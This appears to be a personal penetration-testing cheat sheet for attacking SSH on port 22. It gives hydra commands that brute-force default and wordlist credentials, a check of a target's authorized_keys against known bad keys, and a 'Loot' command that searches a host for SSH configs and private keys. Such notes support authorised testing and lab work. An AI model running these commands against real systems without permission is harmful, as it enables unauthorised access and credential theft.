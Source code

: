 #service 
<% tp.file.rename("1_SSH_22")%>
☑️
#### Bad Keys
Get entries from targets `authorized_keys` file. Then:
```
auth_key="";grep -lr $auth_key /home/kali/Documents/SSHKeys/
```
#### Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s 22
```
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt ssh://$hip -V -t 4 -I -s 22
```
(pass userlist with `-L /usr/share/wordlists/dirb/others/names.txt`)

> Tip: If SSH-Version of target is to low to connect to, try command „kali-tweaks“, select hardening, and toggle „SSH“.

# Loot
```bash
find / -name "ssh_config" -o -name "sshd_config" -o -name "authorized_keys" -o -name "ssh_known_hosts" -o -name ".shosts" -o -name "id_*"
```